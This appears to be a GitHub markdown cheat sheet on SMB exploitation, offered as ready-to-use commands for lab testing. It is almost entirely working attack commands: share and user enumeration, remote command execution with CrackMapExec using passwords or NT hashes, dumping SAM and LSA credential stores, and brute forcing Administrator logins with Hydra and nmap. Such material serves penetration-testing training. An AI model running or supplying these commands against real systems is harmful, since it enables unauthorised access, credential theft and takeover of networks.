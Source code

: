 # SMB Exploitation — Cheat Sheet

This cheat sheet summarizes real SMB hacking techniques — from reconnaissance to full system compromise — with ready-to-use commands you can test in your own lab.

---

## 🔍 Step 1: Enumerating SMB Services

### Identify Open SMB Ports
```bash
nmap -p 139,445 <IP>
nmap -p 139,445 --script smb-os-discovery,smb-enum-shares,smb-enum-users <target-ip>
```

### Full Enumeration with enum4linux
```bash
enum4linux -a <target_ip>
```

### Identify SMB Version
**Metasploit:**
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS <target_ip>
run
```
**Custom script:**
```bash
./smbver.sh <target_ip> {port}
```

---

## 📂 Step 2: Dumping SMB Information

### Using enum4linux & enum4linux-ng
```bash
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>
```

### Using Nmap
```bash
nmap --script "safe or smb-enum-*" -p 445 <IP>
```

### rpcclient
```bash
rpcclient -U "" -N <IP>
rpcclient -U "username%passwd" <IP>
```

### Impacket
```bash
samrdump.py -port 139,445 [[domain/]username[:password]@]<target>
rpcdump.py -port 135,139,445 [[domain/]username[:password]@]<target>
```

---

## 👥 Step 3: Enumerating Users & Groups

```bash
crackmapexec smb <IP> --users
crackmapexec smb <IP> --groups
crackmapexec smb <IP> --groups --loggedon-users
```

**LDAP Enumeration:**
```bash
ldapsearch -x -b "DC=DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))" -h <IP>
```

**Metasploit SID Lookup:**
```bash
use auxiliary/scanner/smb/smb_lookupsid
set RHOSTS domain.local
run
```

---

## 📁 Step 4: Shared Folder Enumeration

### List Shares
```bash
smbclient --no-pass -L //<IP>
smbmap -H <IP>
crackmapexec smb <IP> --shares
```

### Connect to Shares
```bash
smbclient //<IP>/<Folder> -U 'username%passwd'
smbmap -u "user" -p "pass" -R [Folder] -H <IP>
```

---

## 💻 Step 5: Exploitation with CrackMapExec

Install:
```bash
apt-get install crackmapexec
```

Execute commands:
```bash
crackmapexec smb <IP> -u Administrator -p 'password' -x whoami
crackmapexec smb <IP> -u Administrator -H <NTHASH> -x whoami
```

Dump hashes & users:
```bash
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users
```

---

## 🔑 Step 6: Brute Forcing SMB

**Nmap:**
```bash
nmap --script smb-brute -p 445 <IP>
```

**Hydra:**
```bash
hydra -l Administrator -P wordlist.txt <IP> smb -t 1
```

---

## 📜 Step 7: Post-Exploitation

Check configs:
```bash
cat /etc/samba/smb.conf
smbstatus
```

Dump sessions and policies:
```bash
crackmapexec smb <IP> -u Administrator -p 'password' --sessions
crackmapexec smb <IP> -u Administrator -p 'password' --pass-pol
```

---

## References
- EternalBlue (CVE-2017–0144) exploit background  
- Impacket tools: https://github.com/fortra/impacket  
- CrackMapExec: https://github.com/byt3bl33d3r/CrackMapExec  
